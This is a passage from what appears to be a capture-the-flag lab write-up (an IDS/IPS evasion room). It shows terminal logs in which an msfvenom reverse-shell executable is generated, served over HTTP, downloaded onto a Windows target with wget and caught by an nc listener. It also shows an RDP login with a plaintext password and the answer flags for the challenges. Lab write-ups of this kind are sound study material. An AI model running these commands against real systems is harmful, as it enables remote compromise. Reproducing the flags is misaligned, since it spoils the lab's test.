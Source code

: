```

C:\Windows\system32>cd C:\flags
cd C:\flags

C:\flags>.\flag11.exe            
.\flag11.exe
THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}

```

![[Pasted image 20220911164426.png]]

Insert flag11 here
*THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}*

![[Pasted image 20220911165257.png]]

```
┌──(kali㉿kali)-[~/payloads]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4452 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
                                                                                           
┌──(kali㉿kali)-[~/payloads]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.170.100 - - [11/Sep/2022 17:50:13] "GET /revshell.exe HTTP/1.1" 200 -

PS C:\Users\Administrator> cd C:\Windows
PS C:\Windows> wget http://10.11.81.220:1337/revshell.exe -o revshell.exe

┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ xfreerdp /u:Administrator /p:'Passwd123' /v:10.10.170.100 /size:85%


┌──(kali㉿kali)-[~/payloads]
└─$ nc -nvlp 4452
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4452
Ncat: Listening on 0.0.0.0:4452
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:50050.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\flags
cd C:\flags

C:\flags>.\flag12.exe
.\flag12.exe
THM{I_INSIST_GO_FIRST}


```

